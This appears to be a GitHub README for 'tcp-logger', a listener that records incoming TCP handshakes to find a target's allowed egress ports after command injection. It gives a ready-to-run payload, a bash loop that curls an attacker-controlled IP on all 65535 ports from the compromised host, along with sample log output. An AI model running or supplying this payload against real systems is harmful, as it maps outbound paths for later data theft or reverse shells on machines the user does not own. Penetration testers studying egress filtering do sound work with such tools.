 # tcp-logger

tcp handshake logger
useful to determine egress rules when you have command injection

Example payload to run on host
`for port in {1..65535}; do curl $ip:$port --connect-timeout .01; done;`

example output
```
$ ./logger
Logging all TCP handshakes except to/from port 22
2020/03/16 01:23:45 XXX.XXX.XXX.XXX 21(ftp)
2020/03/16 01:23:46 XXX.XXX.XXX.XXX 53(domain)
2020/03/16 01:23:47 XXX.XXX.XXX.XXX 80(http)
2020/03/16 01:23:48 XXX.XXX.XXX.XXX 139(netbios-ssn)
2020/03/16 01:23:55 XXX.XXX.XXX.XXX 443(https)
2020/03/16 01:23:55 XXX.XXX.XXX.XXX 445(microsoft-ds)
2020/03/16 01:26:44 XXX.XXX.XXX.XXX 8080(http-alt)
```